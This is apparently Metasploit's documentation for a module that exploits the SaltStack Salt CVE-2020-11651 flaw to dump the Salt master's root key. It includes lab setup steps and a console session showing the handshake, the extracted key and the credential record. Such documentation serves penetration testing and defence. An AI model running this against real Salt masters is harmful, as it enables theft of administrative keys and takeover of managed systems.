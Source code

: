 ## Vulnerable Application

### Description

This module exploits unauthenticated access to the `_prep_auth_info()`
method in the SaltStack Salt master's ZeroMQ request server, for
versions 2019.2.3 and earlier and 3000.1 and earlier, to disclose the
root key used to authenticate administrative commands to the master.

VMware vRealize Operations Manager versions 7.5.0 through 8.1.0 are
known to be affected by the Salt vulnerabilities.

Tested against SaltStack Salt 2019.2.3 and 3000.1 on Ubuntu 18.04, as
well as Vulhub's Docker image.

### Setup

Follow [SaltStack's instructions for
Ubuntu](https://repo.saltstack.com/#ubuntu) and "pin to minor release"
either version **2019.2.3** or **3000.1**.

Alternatively, you may use [Vulhub's Docker
image](https://github.com/vulhub/vulhub/tree/master/saltstack/CVE-2020-11651)
for ease of installation. Version **2019.2.3** will be used.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

This dumps the Salt master's root key by sending the `_prep_auth_info()`
method and extracting the key from the resulting serialized auth info.

## Scenarios

### SaltStack Salt 2019.2.3 on Ubuntu 18.04

```
msf5 > use auxiliary/gather/saltstack_salt_root_key
msf5 auxiliary(gather/saltstack_salt_root_key) > options

Module options (auxiliary/gather/saltstack_salt_root_key):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   4506             yes       The target port (TCP)


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump root key from Salt master


msf5 auxiliary(gather/saltstack_salt_root_key) > set rhosts 172.28.128.5
rhosts => 172.28.128.5
msf5 auxiliary(gather/saltstack_salt_root_key) > run
[*] Running module against 172.28.128.5

[*] 172.28.128.5:4506 - Connecting to ZeroMQ service at 172.28.128.5:4506
[*] 172.28.128.5:4506 - Negotiating signature
[+] 172.28.128.5:4506 - Received valid signature: "\xFF\x00\x00\x00\x00\x00\x00\x00\x01\x7F"
[*] 172.28.128.5:4506 - Sending identical signature
[*] 172.28.128.5:4506 - Negotiating version
[+] 172.28.128.5:4506 - Received compatible version: "\x03"
[*] 172.28.128.5:4506 - Sending identical version
[*] 172.28.128.5:4506 - Negotiating NULL security mechanism
[+] 172.28.128.5:4506 - Received NULL security mechanism
[*] 172.28.128.5:4506 - Sending NULL security mechanism
[*] 172.28.128.5:4506 - Sending READY command of type REQ
[+] 172.28.128.5:4506 - Received READY reply of type ROUTER
[*] 172.28.128.5:4506 - Yeeting _prep_auth_info() at 172.28.128.5:4506
[+] 172.28.128.5:4506 - Received serialized auth info
[+] 172.28.128.5:4506 - Root key: bv2Ra72DXzkrbFVYNPHrOe9CqM2aKBdl+E46/m/kaxvDsiLxhG+0PS55u704MyOi2/PgD/EadGk=
[*] 172.28.128.5:4506 - Disconnecting from 172.28.128.5:4506
[*] Auxiliary module execution completed
msf5 auxiliary(gather/saltstack_salt_root_key) > creds
Credentials
===========

host          origin        service                 public  private                                                                       realm  private_type  JtR Format
----          ------        -------                 ------  -------                                                                       -----  ------------  ----------
172.28.128.5  172.28.128.5  4506/tcp (salt/zeromq)  root    bv2Ra72DXzkrbFVYNPHrOe9CqM2aKBdl+E46/m/kaxvDsiLxhG+0PS55u704MyOi2/PgD/EadGk=         Password

msf5 auxiliary(gather/saltstack_salt_root_key) >
```
